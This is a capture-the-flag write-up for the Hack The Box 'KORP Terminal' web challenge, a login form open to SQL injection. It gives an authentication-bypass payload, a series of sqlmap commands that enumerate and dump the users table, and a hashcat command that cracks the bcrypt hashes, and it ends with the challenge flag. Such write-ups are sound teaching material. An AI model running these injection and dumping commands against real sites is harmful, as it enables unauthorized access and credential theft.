








# KORP Terminal

## Description &#x20;

Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

<figure><figcaption></figcaption></figure>

### **Introduction**

This write-up documents a profound security analysis of a web application that exhibited a classic SQL Injection vulnerability.

<figure><figcaption></figcaption></figure>

### **Discovery of the Vulnerability**

The initial suspicion of a SQLi vulnerability arose when inputting crafted strings into the login form:&#x20;

```
Username = ad'||'min'-- and Password = 1
```

<figure><figcaption></figcaption></figure>

This input effectively bypassed the authentication process, indicating that the application improperly sanitizes user input, making it susceptible to SQL Injection.

<figure><figcaption></figcaption></figure>

### **Exploitation and Analysis**

To further exploit this vulnerability, we utilized `sqlmap`, a powerful tool for automating the detection and exploitation of SQL Injection flaws. The command executed was as follows:

```bash
sqlmap -u URL --method=POST --data="username=admin&password=admin" --banner --dbms=mysql --level=5 --risk=3 --ignore-code=401
```

<figure><figcaption><p>SQLi vulnerability</p></figcaption></figure>

### **Database Enumeration**

With the vulnerability confirmed, the next step involved enumerating the databases accessible through the injection point:

```bash
sqlmap -u URL --method=POST --data="username=admin&password=admin" --banner --dbms=mysql --level=5 --risk=3 --ignore-code=401 --dbs --batch
```

<figure><figcaption><p>korp_terminal Database</p></figcaption></figure>

### **Table Enumeration**

To delve deeper into the `korp_terminal` database, we enumerated its tables:

```bash
sqlmap -u URL --method=POST --data="username=admin&password=admin" --banner --dbms=mysql --level=5 --risk=3 --ignore-code=401 -D korp_terminal --tables --batch
```

<figure><figcaption><p>users table</p></figcaption></figure>

### **Data Extraction**

Focusing on the `users` table, we extracted its contents:

```bash
sqlmap -u URL --method=POST --data="username=admin&password=admin" --banner --dbms=mysql --level=5 --risk=3 --ignore-code=401 -D korp_terminal -T users --dump --batch
```

<figure><figcaption></figcaption></figure>

### **Password Cracking**

With the hashed passwords extracted, the final step involved cracking these hashes to reveal plaintext passwords. For this, `hashcat` was employed:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

* \-m 3200 (bcrypt $2\*$, Blowfish (Unix))
* /usr/share/wordlists/rockyou.txt (wordlist)

<figure><figcaption><p>password123</p></figcaption></figure>

I proceeded to log in to the web application using the credentials obtained:&#x20;

```
Username = admin and Password = password123
```

This action granted me unauthorized access to the admin panel, where I was able to retrieve the coveted flag, marking the culmination of a successful exploitation process.

### Flag

<figure><figcaption><p>HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}</p></figcaption></figure>

## Follow Me <a href="#follow-me" id="follow-me"></a>

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
